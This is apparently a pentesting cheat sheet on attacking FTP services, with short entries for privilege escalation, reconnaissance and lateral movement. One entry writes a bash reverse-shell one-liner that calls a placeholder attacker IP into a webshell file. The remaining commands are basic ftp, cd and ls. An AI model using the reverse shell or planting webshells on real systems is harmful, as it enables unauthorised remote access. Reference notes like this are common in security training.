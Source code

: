### Privilege Escalation

#### Anonymous FTP Writeable Directory Exploit

*   **Tool:** Manual, \[\[Custom Scripts]]

    ```bash
    echo "bash -i >& /dev/tcp/<attack_ip>/4444 0>&1" > /path/to/webshell.php
    ```
* **Description:** Exploits write permissions in an anonymous FTP directory to upload and execute a malicious shell.

#### Abusing Misconfigured FTP Permissions

*   **Tool:** \[\[FTP]]

    ```bash
    ftp <target_ip>
    ```
* **Description:** Escalate privileges by exploiting misconfigured permissions, such as world-writable directories.

### Internal Reconnaissance

#### Directory Traversal

*   **Tool:** \[\[FTP]]

    ```bash
    ftp <target_ip>
    cd ../../
    ```
* **Description:** Exploits directory traversal vulnerabilities to access unauthorized areas of the server’s file system.

#### Listing Sensitive Files

*   **Tool:** \[\[FTP]]

    ```bash
    ls -la
    ```
* **Description:** Looks for sensitive files (e.g., backup files, config files) that may contain valuable information.

### Lateral Movement, Pivoting, and Tunnelling

#### Using FTP for Lateral Movement

*   **Tool:** \[\[FTP]], SSH Tunneling

    ```bash
    ftp <target_ip>
    ```
* **Description:** Move laterally across the network by using FTP to upload malicious scripts or tools to other accessible servers.
